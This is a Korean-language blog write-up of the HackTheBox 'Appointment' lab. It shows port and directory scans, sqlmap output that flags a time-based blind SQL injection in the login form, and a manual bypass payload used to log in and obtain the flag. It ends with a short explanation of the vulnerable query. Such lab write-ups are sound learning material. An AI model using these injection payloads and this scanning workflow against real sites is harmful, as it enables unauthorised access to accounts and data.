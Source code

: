 ```yaml
---
title: HTB Appointment Write-up
categories: [HackTheBox, Basic]
tags: [HackTheBox, Gobuster, Sql, Injection]
image:
    path: /assets/image_post/20240207111923.png
---
```

대상 서버에서 동작하는 서비스에 대해 먼저 알아보자. 

``` shell
 read-min 🇰   ~  nmap 10.129.198.242 -sV -sC
Starting Nmap 7.94 ( https://nmap.org ) at 2024-02-04 14:07 KST
Nmap scan report for 10.129.198.242
Host is up (0.26s latency).
Not shown: 989 closed tcp ports (conn-refused)
PORT      STATE    SERVICE     VERSION
80/tcp    open     http        Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Login
```

gobuster를 위한 wordlist는 아래 경로에서 다운로드 했다.

> https://raw.githubusercontent.com/aels/subdirectories-discover/main/dsstorewordlist.txt

gobuster로 스캔한 결과는 아래와 같다. 유의미한 결과가 있지는 않은 것 같다.
``` bash
# gobuster dir -u http://10.129.198.242 -w dsstorewordlist.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.198.242
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                dsstorewordlist.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 4896]
/images               (Status: 301) [Size: 317] [--> http://10.129.198.242/images/]
/js                   (Status: 301) [Size: 313] [--> http://10.129.198.242/js/]
/css                  (Status: 301) [Size: 314] [--> http://10.129.198.242/css/]
/fonts                (Status: 301) [Size: 316] [--> http://10.129.198.242/fonts/]
/vendor               (Status: 301) [Size: 317] [--> http://10.129.198.242/vendor/]
/.htaccess            (Status: 403) [Size: 279]
/.htpasswd            (Status: 403) [Size: 279]
/.htpasswds           (Status: 403) [Size: 279]
Progress: 1828 / 1829 (99.95%)
===============================================================
Finished
===============================================================
```

그렇다면 80 port에 직접 브라우저로 접근 시 아래와 같이 로그인 화면이 나온다. SQL Injection을 통해 로그인하라는 내용 같다.
![](../assets/image_post/20240204150016.png)

바로 간단한 구문을 테스트해도 되지만, 다양한 툴을 접해보는 것도 목적이기에 sqlmap 툴을 사용해봤다.

``` bash
# sqlmap -u "http://10.129.198.242/" --batch
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.8#stable}
|_ -| . [,]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 06:03:22 /2024-02-04/

[06:03:22] [INFO] testing connection to the target URL
[06:03:22] [INFO] checking if the target is protected by some kind of WAF/IPS
[06:03:23] [INFO] testing if the target URL content is stable
[06:03:23] [INFO] target URL content is stable
[06:03:23] [CRITICAL] no parameter(s) found for testing in the provided data (e.g. GET parameter 'id' in 'www.site.com/index.php?id=1'). You are advised to rerun with '--forms --crawl=2'

[*] ending @ 06:03:23 /2024-02-04/
```

Critical의 내용과 같이 옵션을 추가해서 다시 진행하였다. 아래와 같이 취약점이 존재한다는 결과에 대해 확인이 가능하다.

``` shell
# sqlmap -u "http://10.129.198.242/" --batch --forms --crawl=2
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.8#stable}
|_ -| . [)]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 06:03:50 /2024-02-04/

do you want to check for the existence of site's sitemap(.xml) [y/N] N
[06:03:50] [INFO] starting crawler for target URL 'http://10.129.198.242/'
[06:03:50] [INFO] searching for links with depth 1
[06:03:51] [INFO] searching for links with depth 2
please enter number of threads? [Enter for 1 (current)] 1
[06:03:51] [WARNING] running in a single-thread mode. This could take a while
do you want to normalize crawling results [Y/n] Y
do you want to store crawling results to a temporary file for eventual further processing with other tools [y/N] N
[1/1] Form:
POST http://10.129.198.242/
POST data: username=&password=&remember-me=on

...skip...

[06:04:45] [WARNING] if UNION based SQL injection is not detected, please consider forcing the back-end DBMS (e.g. '--dbms=mysql')
[06:04:45] [INFO] checking if the injection point on POST parameter 'username' is a false positive
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 96 HTTP(s) requests:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=pMzq' AND (SELECT 6086 FROM (SELECT(SLEEP(5)))HBmG) AND 'UXcN'='UXcN&password=JaMC&remember-me=on
---
```

취약점 존재 여부에 대해선 확인하였으니 아래와 같이 로그인을 수행할 수 있다.

> username: admin   / pw: 1' or''=' 

로그인 시 아래와 같이 정답 flag가 노출된다.

![](../assets/image_post/20240204151501.png)

---

문제에 대한 풀이는 끝났지만, SQL Injection에 대해 추가적으로 알아보고자 아래에 추가적으로 정리한 내용이다. 우선 공격에 사용된 코드를 통해 서버 측에서는 받아온 입력 값을 그대로 db 쿼리에 사용하고 있음을 알 수가 있다. 대략적인 php 코드는 아래와 같을 것이다.

``` php
$sql = "SELECT * FROM users WHERE username='$username' AND password='$password'";
``` 

이러한 상태에서 위 공격 구문을 대입하면 아래와 같은 형태로, `''=''`은 true가 되므로 password는 항상 참의 값이 된다.

``` php
"SELECT * FROM users WHERE username='$username' AND password='1' or''=''"
```

SQL Injection은 실제 탐지한 경험이 없다보니, 많이 낯선 영역 같다. 이 쪽을 좀 더 많이 해봐야겠다.

![](../assets/image_post/20240204151558.png)
